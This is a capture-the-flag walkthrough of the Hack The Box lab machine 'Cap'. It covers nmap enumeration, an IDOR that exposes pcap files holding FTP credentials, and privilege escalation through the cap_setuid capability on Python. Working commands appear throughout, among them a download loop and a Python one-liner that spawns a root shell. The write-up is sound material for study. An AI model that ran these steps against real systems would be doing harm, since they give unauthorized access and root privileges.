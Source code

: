 ```yaml
---
tags:
  - linux
---
```

# HTB: [Cap](https://app.hackthebox.com/machines/Cap)

## Enumeration

### `nmap`

#### TCP

- Target: `cap.htb 10.10.10.245`
- Command: `nmap -v --reason -Pn -T4 -p- --open -sCV -oA nmap_tcp-cap.htb cap.htb`

##### 21/tcp-ftp `vsftpd` `3.0.3`

##### 80/tcp-http `gunicorn`

```text
  GetRequest:
    HTTP/1.0 200 OK
    Server: gunicorn
...
```

### Manual Enumeration

The server is hosting a security dashboard with functionality to download `pcap` files, view IP configuration, and display `netstat` output.

![](_/htb-cap-20250418-1.png)

## Remote Code Execution

I spent a long time trying to exploit the capture mechanism by sending custom packets and probing for hidden `GET` parameters when it was actually just a simple IDOR exposing a previously created `pcap`. Thanks, [0xdf](https://0xdf.gitlab.io/2021/10/02/htb-cap.html).

```console
$ for i in {0..50} ; do wget 10.10.10.245/download/${i} -O ${i}.pcap 2>/dev/null || rm ${i}.pcap && ls -l ${i}.pcap 2>/dev/null; done
-rw-r--r-- 1 e e 9935 May 15  2021 0.pcap
^ RC=2

$ strings 0.pcap
...
220 (vsFTPd 3.0.3)
USER nathan
(su@
Jsv@
331 Please specify the password.
PASS Buck3...
(sw@
?sx@
230 Login successful.
...
```

## Privilege Escalation

From LinPeas:

```console
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
```

```console
nathan@cap:/dev/shm$ /usr/bin/python3.8 -c 'import os,pty; os.setuid(0); pty.spawn("/bin/bash")'
root@cap:/dev/shm# id
uid=0(root) gid=1001(nathan) groups=1001(nathan)
```

## Notes

Look for the simple vectors first before burning time on more complicated ones.
